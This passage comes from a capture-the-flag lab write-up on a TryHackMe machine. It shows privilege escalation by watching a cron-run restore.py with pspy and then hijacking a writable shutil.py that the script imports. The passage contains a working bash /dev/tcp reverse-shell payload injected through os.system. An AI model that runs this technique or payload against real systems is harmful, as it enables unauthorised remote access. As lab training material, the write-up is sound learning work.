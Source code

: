 After checking for cronjobs, I was unable to find anything related to the restore.py file. Therefore, I'm going to use "pspy" a simple utility to monitor processes without root access. you can read more about it at \[pspy\](https://github.com/DominicBreuker/pspy) . I have pspy 64 bit.

Start a simple web server on my local machine in the directory where pspy is located using Python. 

```text-plain
python -m http.server 8080
// or 
python3 -m http.server 8080
```

Retrieved the file using `wget` and saved it in the `/tmp` directory of the target machine.

```text-plain
wget http://<vpn_IP>:8080/pspy64
```

Now change the permission to executable and run it using `./pspy64`.

If we monitor it for a while, we can see a restore.py being executed with Python and the user ID `1002`. 

![image](https://github.com/Itskmishra/Try-Hack-Me/assets/141756495/d44ce104-8c40-4989-b026-a9b3b3ce7c12)


If we check the `/etc/passwd` file for the user ID, we can notice that user Morpheus has an ID of `1002`. Moreover, this process runs every minute.

![image](https://github.com/Itskmishra/Try-Hack-Me/assets/141756495/e360d2a8-a2d0-41e6-ac85-618fd328e51d)

Now that we have established that the `restore.py` file utilizes shutil.py for the given task, and that the deaths have write permission on the `shutil.py` file, which is imported in `restore.py`, it is possible to exploit this by inserting some code within the `shutil.py` file and running it.

If we read the shutil file, we can see that `os` and `sys` are imported, which means we can use these libraries inside the `shutil.py` file. By using `os.system()`, we can execute shell commands from within the script. Let's try this theory by running the `whoami` command and storing the result inside a test file at `/tmp`.

Add this line of code after the imports:

```text-plain
os.system("whoami  > /tmp/test")
```

After making the necessary changes save the file and wait for a minute to see the result. A minute later a new file get created inside the `/tmp` dir.

![image](https://github.com/Itskmishra/Try-Hack-Me/assets/141756495/6fbdace2-e361-4d59-8818-5b9d8cd0b3c9)

This file is owned by Morpheus and if we read it, we can determine that the user is Morpheus. This can be exploited by executing a reverse shell payload as we did with "whoami". Replace the previous command with this rev shell payload and start a nc listener on the defined port.

```text-plain
os.system("bash -c 'exec bash -i &>/dev/tcp/<attacker-IP>/<port> <&1'")
```
